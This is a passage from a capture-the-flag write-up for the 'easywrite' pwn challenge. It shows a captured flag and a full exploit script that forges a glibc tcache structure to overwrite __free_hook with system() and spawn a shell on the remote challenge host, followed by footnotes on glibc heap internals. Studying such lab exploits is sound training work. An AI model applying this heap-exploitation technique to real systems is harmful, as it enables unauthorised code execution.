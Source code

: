 ```python
$ cat flag
n1ctf{09b1e57ba44889be4f9ec8feee88b3be}
$
```
## Full code
```python
from pwnscripts import *
context.binary = 'easywrite'
context.libc_database = 'libc-database'
context.libc = 'libc-2.31.so'

r = remote('124.156.183.246', 20000)
context.libc.calc_base('setbuf', unpack_hex(r.recvline()))

def tcache_perthread_struct(fake_ptrs: dict):
    '''fake_ptrs has (address: size) key-pairs'''
    def csize2tidx(x): return (x-1)//16 -1
    TCACHE_MAX_BINS = 0x40

    counts = [0 for _ in range(TCACHE_MAX_BINS)]
    entries = [0 for _ in range(TCACHE_MAX_BINS)]
    for addr,size in fake_ptrs.items():
        tidx = csize2tidx(size)
        counts[tidx] += 1
        entries[tidx] = addr
    return b''.join(map(p16,counts)) + b''.join(map(p64,entries))

SIZE = 0x40 # size of the 2nd allocation
tcache_pointer = 0x7f638ae58530-0x00007f638ac65000+context.libc.address-0x40
fake_tcache = tcache_perthread_struct({context.libc.symbols['__free_hook']-0x8: SIZE})

r.sendafter('Input your message:', fake_tcache)
r.sendafter('Where to write?:', pack(tcache_pointer))
r.sendafter('Any last message?:', b'/bin/sh\0' + pack(context.libc.symbols['system']))

r.interactive()
```
## Footnotes
0. ...which is practically identical what I said at the start of the writeup.
1. You can personally test this by overwriting all the values of `.got.plt` with garbage in `gdb`. The program exits gracefully.
2. Particularly, `__libc_IO_vtables` is useless here, because `main()` is committed to using raw `read()`s and `write()`s, instead of the standard I/O functions provided by libc.
3. The code for fastbin-malloc doesn't do much for us here. (Note that the fastbin_index for `malloc(0x30)` is 2)
    ```c
    #define fastbin_index(sz) ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
    #define fastbin(ar_ptr, idx) ((ar_ptr)->fastbinsY[idx])
